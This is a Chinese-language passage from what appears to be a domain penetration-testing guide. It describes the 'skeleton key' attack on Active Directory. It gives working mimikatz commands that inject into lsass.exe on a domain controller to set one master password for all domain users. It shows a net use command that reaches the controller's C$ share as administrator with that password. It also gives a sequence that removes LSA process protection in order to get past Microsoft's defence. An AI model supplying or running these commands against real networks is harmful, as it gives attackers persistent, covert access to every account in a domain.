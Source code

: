 ### 5.3 skeleton key

skeleton key(万能钥匙)就是给所有域内用户添加一个相同的密码，域内所有的用户 都可以使用这个密码进行认证，同时原始密码也可以使用，其原理是对 lsass.exe 进行注 入，所以重启后会失效。

#### 1、 在域控上安装 skeleton key

```
mimikatz.exe privilege::debug "misc::skeleton"

```

![](images/yushentou/15899766886312.png)


#### 2、 在域内其他机器尝试使用 skeleton key 去访问域控

添加的密码是 mimikatz

```
C:\Users\jeff1>net use \\WIN-9P499QKTLDO.adtest.com\c$ mimikatz /user:adtest\adm inistrator

```

![](images/yushentou/15899766967442.png)


#### 3、 微软在 2014 年 3 月 12 日添加了 LSA 爆护策略，用来防止对进程 lsass.exe 的代码注 入。如果直接尝试添加 skelenton key 会失败。

适用系统:

* windows 8.1
* windows server 2012 及以上

![](images/yushentou/15899767054068.png)


当然 mimikatz 依旧可以绕过，命令如下:

```bash
privilege::debug
!+
!processprotect /process:lsass.exe /remove 
misc::skeleton

```

